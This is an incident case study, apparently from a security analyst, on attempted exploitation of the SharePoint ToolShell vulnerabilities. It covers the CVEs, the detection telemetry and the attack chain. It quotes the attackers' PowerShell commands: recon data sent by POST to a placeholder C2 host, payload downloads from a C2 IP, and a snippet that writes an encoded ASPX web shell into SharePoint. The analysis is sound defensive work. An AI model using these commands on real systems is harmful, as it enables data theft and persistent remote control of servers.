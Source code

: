 # Case Study 001 - SharePoint ToolShell Exploitation Attempt (CVE-2025-49706, CVE-2025-53770, CVE-2025-49704)

> - **Severity:** High
> - **Date:** July 2025
> - **Framework:** MITRE ATT&CK - T1190 Exploit Public-Facing Application


## Overview
The SharePoint ToolShell vulnerabilities include a chain of critical flaws disclosed in 2025.
- **[CVE-2025-49706](https://nvd.nist.gov/vuln/detail/CVE-2025-49706 "https://nvd.nist.gov/vuln/detail/CVE-2025-49706")** allows attackers to bypass authentication mechanisms.
- **[CVE-2025-49704](https://nvd.nist.gov/vuln/detail/CVE-2025-49704 "https://nvd.nist.gov/vuln/detail/CVE-2025-49704")** enables arbitrary file writes, which can be leveraged to achieve remote code execution without valid credentials.
- Two additional variants, **CVE-2025-53771** (derived from CVE-2025-49706) and [CVE-2025-53770](https://nvd.nist.gov/vuln/detail/CVE-2025-53770 "https://nvd.nist.gov/vuln/detail/CVE-2025-53770") (derived from CVE-2025-49704), were later identified through fuzzing research.

Together, these vulnerabilities present a high-risk attack surface where unauthenticated adversaries can gain full control of vulnerable SharePoint instances.

## Detection & Analysis
- Initial alert triggered in **Stellar Cyber XDR** (High Severity).
- **Correlated telemetry:** Microsoft Defender for Endpoint indicated `w3wp.exe` (IIS worker) spawning PowerShell and `cmd.exe` processes consistent with post-exploit activity.

#### Observed behaviors:
- **Recon & data exfil** via `Invoke-WebRequest` **HTTP POST** to external hosts:
    
    - `$(whoami /all)`, `$(systeminfo)`, `$(tasklist /v)`, `$(netstat -ano)`, directory listings of SharePoint and user profile paths.
        
- **Web app & SharePoint enumeration**:
    
    - `appcmd list app /text:[path='/'].physicalPath`, listings under `C:\inetpub\wwwroot\wss\VirtualDirectories\...` and `...\App_GlobalResources`.
        
- **Artifact download & drop** (cleartext HTTP):
    
    - EXE/DLLs fetched from external IPs/domains and saved under `C:\Users\[SERVICE_ACCOUNT]\AppData\Local\...` and `C:\ProgramData\...`.
        
- **Potential web shell deployment**:
    
    - **Decoded `-EncodedCommand` summary:** writes a **Base64-encoded ASPX file** to SharePoint **LAYOUTS** path as `spinstall0.aspx`:
```
$destinationFile = "C:\PROGRA~1\COMMON~1\MICROS~1\WEBSER~1\16\TEMPLATE\LAYOUTS\spinstall0.aspx"
$decodedContent = [System.Text.Encoding]::UTF8.GetString([Convert]::FromBase64String($base64String))
$decodedContent | Set-Content -Path $destinationFile
```
→ This is consistent with **ToolShell-style web shell write** into a globally served SharePoint directory.
- **Other signs**: creation of `0.css` in `App_GlobalResources` (write test / file-drop), and plaintext download of binaries (`SPDesk.exe`, `SPlog.exe`, `log.dll`, `Product.Wsc.dll`, `nvsmartmax64.dll`, `txmlutil.dll`).

#### Representative command patterns:
 ``` 
# Exfil / recon
powershell.exe -C Invoke-WebRequest -Uri hxxp://[C2_DOMAIN]/... -Method POST -Body $(whoami /all)
powershell.exe -C Invoke-WebRequest -Uri hxxp://[C2_DOMAIN]/... -Method POST -Body $(systeminfo)
powershell.exe -C Invoke-WebRequest -Uri hxxp://[C2_DOMAIN]/... -Method POST -Body $(netstat -ano)
powershell.exe -C Invoke-WebRequest -Uri hxxp://[C2_DOMAIN]/... -Method POST -Body $(dir C:\inetpub\wwwroot\wss\VirtualDirectories)

# Artifact downloads
powershell.exe -C Invoke-WebRequest -Uri hxxp://[C2_IP]:10888/asx -OutFile C:\Users\[SERVICE_ACCOUNT]\AppData\Local\WebTempDir\SPlog.exe
powershell.exe -C Invoke-WebRequest -Uri hxxp://[C2_IP]:10888/2   -OutFile C:\Users\[SERVICE_ACCOUNT]\AppData\Local\log.dll
powershell.exe -C Invoke-WebRequest -Uri hxxp://[C2_IP]:10888/3   -OutFile C:\Users\[SERVICE_ACCOUNT]\AppData\Local\Product.Wsc.dll

# SharePoint/IIS context
w3wp.exe -ap "SharePointWebAppPools" ...
cmd.exe /c C:\Windows\System32\inetsrv\appcmd.exe list app /text:[path='/'].physicalPath

# EncodedCommand (web shell write to LAYOUTS)
cmd.exe /c powershell -EncodedCommand <BASE64>   # decodes and writes spinstall0.aspx to LAYOUTS

 ```

#### Encoded Command:
![](attachments/POC-Decoded-Strings.png)


## Analysis Summary
- The activity observed is consistent with post-exploitation of a SharePoint vulnerability. Adversaries leveraged `w3wp.exe` to spawn PowerShell and `cmd.exe` for:

- **Reconnaissance & Exfiltration** – collecting host details (`systeminfo`, `whoami`, `tasklist`, `netstat`) and directory listings, then exfiltrating results via cleartext HTTP POST to external C2 servers.
    
- **File Write & Payload Delivery** – downloading executables and DLLs into service account directories (`AppData\Local`, `ProgramData`), indicating attempts at persistence or staging.
    
- **Web Shell Deployment** – a Base64-encoded PowerShell payload decoded and wrote an ASPX file (`spinstall0.aspx`) into the SharePoint `LAYOUTS` directory, providing an accessible web shell for remote control.
    
- **SharePoint/IIS Enumeration** – commands targeting `appcmd.exe` and SharePoint resource directories, suggesting knowledge of SharePoint application structure.
    

These behaviors demonstrate a multi-stage attack chain: 
> **Initial Compromise** → **Host Reconnaissance** → **Data Exfiltration** → **Payload Deployment** → **Web Shell Installation for Persistence and Further Exploitation**.

